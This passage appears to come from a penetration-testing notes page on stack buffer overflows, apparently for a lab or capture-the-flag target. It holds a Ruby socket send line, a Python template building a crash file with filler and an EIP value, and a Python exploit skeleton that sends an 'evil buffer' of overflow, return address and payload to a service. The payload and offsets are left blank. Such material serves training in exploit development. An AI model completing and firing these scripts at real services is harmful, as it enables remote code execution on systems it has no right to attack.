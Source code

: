 ```ruby

TCPSocket.open("$IP", $port){ |s| s.puts buffer }
```
{% endtab %}

{% tab title="Small template" %}
```python
#!/usr/bin/python3

filler = b"A" * 2222
# eip = b"\x01\x02\x03\x04"
# eip = b"B" * 16

inputBuffer = filler + eip

f = open("exploit.txt", "wb")
f.write(inputBuffer)
f.close()
```
{% endtab %}

{% tab title="Exploit" %}
{% code overflow="wrap" %}
```python
# We execute it until it crashes. We note the number of bytes. Then we create exploit.py:
# USE PYTHON BOF.PY (NOT PYTHON3)
import socket

ip = "10.10.152.83"
port = 1337

prefix = "" # "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
end = "\r\n" # optional, sth at the end might be needed or not

buffer = prefix + overflow + retn + padding + payload + end

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(buffer)
  s.recv(1024)
  s.close
  print("Done!")
except:
  print("Could not connect.")
```
{% endcode %}
{% endtab %}

